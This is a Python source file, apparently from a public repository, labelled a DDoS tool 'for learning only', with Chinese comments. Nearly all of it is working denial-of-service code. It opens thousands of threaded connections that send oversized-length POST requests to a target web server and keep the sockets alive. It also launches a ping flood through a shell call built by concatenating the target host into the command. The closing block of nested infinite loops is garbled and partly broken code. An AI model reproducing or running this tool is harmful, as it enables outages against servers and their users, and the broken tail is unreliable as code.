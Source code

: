 # DDOS
#基于python，kali Liunx实现DDOS攻击
#仅供学习使用
import socket
import time
import threading
#Pressure Test,ddos tool

#---------------替换目标HOST------------#
MAX_CONN=20000
PORT=80
HOST="IP地址"
PAGE="/index.php"


buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
import os
os.system("ping -n 100 -l 100 " + HOST)
socks=[]
def ddos():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    while 1:
        s.connect((HOST,PORT))
        s.send(buf.encode())
        s.send(buf.encode())
        s.send(buf.encode())

def conn_thread():
    global socks
    for i in range(0,MAX_CONN):
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode())
            s.send(buf.encode())
            s.send(buf.encode())
            print ("Send buf OK!,conn=%d\n"%i)
            socks.append(s)
        except Exception as ex:
            print ("Could not connect to server or send error:%s"%ex)
            time.sleep(0.1)
#end def

def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode())
                #print "send OK!"
            except Exception as ex:
                print ("Send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
        time.sleep(0.1)
#end def

conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())

conn_th.start()
send_th.start()
ddos()
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
while 1:
    s.connect((HOST,PORT))
    s.send(buf.encode())
    s.send(buf.encode())
    s.send(buf.encode())
    print ("Send buf OK!,conn=%d\n"%i)
    while 1:
        s.connect((HOST,PORT))
        s.send(buf.encode())
        s.send(buf.encode())
        s.send(buf.encode())
        print ("Send buf OK!,conn=%d\n"%i)
        while 1:
            s.connect((HOST,PORT))
            s.send(buf.encode())
            s.send(buf.encode())
            s.send(buf.encode())
            print ("Send buf OK!,conn=%d\n"%i)
            while 1:
                s.connect((HOST,PORT))
                s.send(buf.encode())
                s.send(buf.encode())
                s.send(buf.encode())
                print ("Send buf OK!,conn=%d\n"%i)
                while 1:
                    s.connect((HOST,PORT))
                    s.send(buf.encode())
                    s.send(buf.encode())
                    s.send(buf.encode())
                    print ("Send buf OK!,conn=%d\n"%i)
                    while 1:
                            s.connect((HOST,PORT))
                            s.send(buf.encode())
                            s.send(buf.encode())
                            s.send(buf.encode())
                            print ("Send buf OK!,conn=%d\n"%i)


